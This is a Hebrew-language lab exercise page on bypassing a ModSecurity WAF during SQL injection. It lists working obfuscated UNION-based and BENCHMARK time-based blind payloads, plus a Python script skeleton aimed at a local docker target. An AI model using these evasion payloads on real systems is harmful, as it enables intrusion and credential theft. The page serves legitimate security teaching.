

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/8 - עקיפת WAF/8.6 - עקיפת WAF לכל חולשה/8.6 - עקיפת WAF לכל חולשה - תרגיל/index.html · generator: mkdocs

# הbypass WAF לכל חולשה - תרגיל

## הכנה

```bash
# Setting up an environment with ModSecurity CRS at paranoia level 3
docker run -d --name modsec-vuln -p 8080:80 \
    -e PARANOIA=3 owasp/modsecurity-crs:apache
```

## תרגיל 1 - הbypass WAF ל-SQLi

נקודת injection:

```
GET /products?category=electronics HTTP/1.1
```

הquery בצד השרת:

```sql
SELECT * FROM products WHERE category = 'USER_INPUT'
```

**משימה:**

1. נסו את הpayloads הבאים ותעדו אילו נחסמים:
   ```sql
   ' UNION SELECT 1,2,3--
   ' UNION ALL SELECT 1,2,3--
   ' uNiOn SeLeCt 1,2,3--
   '/**/UNION/**/SELECT/**/1,2,3--
   'UNION(SELECT(1),(2),(3))--
   '/*!50000UNION*//*!50000SELECT*/1,2,3--
   'e0UNION SELECT 1,2,3--
   '%0aUNION%0aSELECT%0a1,2,3--
   ```

2. מצאו לפחות 3 שיטות שעוקפות את ה-WAF

3. בנו payload שמחלץ את שם המשתמש והסיסמה מטבלת users:
   ```python
   import requests

   target = "http://localhost:8080/products"

   bypass_payloads = [
       # TODO: payloads that extract data
   ]

   for payload in bypass_payloads:
       r = requests.get(target, params={"category": payload})
       print(f"[{r.status_code}] {payload[:50]}...")
       if r.status_code == 200:
           print(f"    Response: {r.text[:100]}...")
   ```

4. בנו payload Time-based blind SQLi שמשתמש ב-BENCHMARK במקום SLEEP:
   ```sql
   ' AND IF(SUBSTRING(username,1,1)='a', BENCHMARK(10000000,SHA1('x')), 0)--
   ```
